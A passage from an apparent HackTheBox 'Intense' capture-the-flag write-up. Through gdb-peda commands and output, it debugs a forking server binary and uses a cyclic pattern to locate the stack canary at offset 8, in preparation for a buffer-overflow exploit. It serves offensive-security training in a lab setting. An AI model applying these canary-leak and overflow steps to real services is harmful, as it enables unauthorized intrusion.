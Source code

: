 ```shell
ezi0x00@kali:~/HTB/Intense$ cat ~/.gdbinit
source ~/peda/peda.py
set follow-fork-mode child
set detach-on-fork off
```

Next, start the binary on it's own, and then attach to it with gdb using the -p [pid] option. It will then run up to the accept call and break, since that's where the program is waiting for input. Once a child thread completes, I'll just run inferiors 1 to go back to the main thread. Sometimes things get screwed up, and I'll just restart gdb.

```shell
ezi0x00@kali:~/HTB/Intense$ gdb - p pid
```

```
0x555555554de6 <handle_client+588>:	mov    rax,QWORD PTR [rbp-0x8]
   0x555555554dea <handle_client+592>:	xor    rax,QWORD PTR fs:0x28
   0x555555554df3 <handle_client+601>:	je     0x555555554e01 <handle_client+615>
   0x555555554df5 <handle_client+603>:	jmp    0x555555554dfc <handle_client+610>
   0x555555554df7 <handle_client+605>:	jmp    0x555555554bcf <handle_client+53>


$ gdb-peda$ break *handle_client+588
$ gdb-peda$ show follow-fork-mode             (to follow any created fork process,if not already puted into .gdbinit)
$ run
 
gdb-peda$ pattern_create 255
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%'


gdb-peda$ x/3xg $rbp-0x8 
0x7fffffff8fb8:	0x6e41412441414241	0x41412d4141434141
0x7fffffff8fc8:	0x413b414144414128
```

Here we have the content of '$rbp-0x8' where the canary is stored. And with gdb we can found how much offset before this address:

```
gdb-peda$ pattern_offset 0x6e41412441414241
7944702841627689537 found at offset: 8
```

>The canary start after 8 bytes. 


Read canary EBP and the return address 

The function used to copy a note into in other offest is "memcpy":

```
void *memcpy(void *dest, const void * src, size_t n)
```
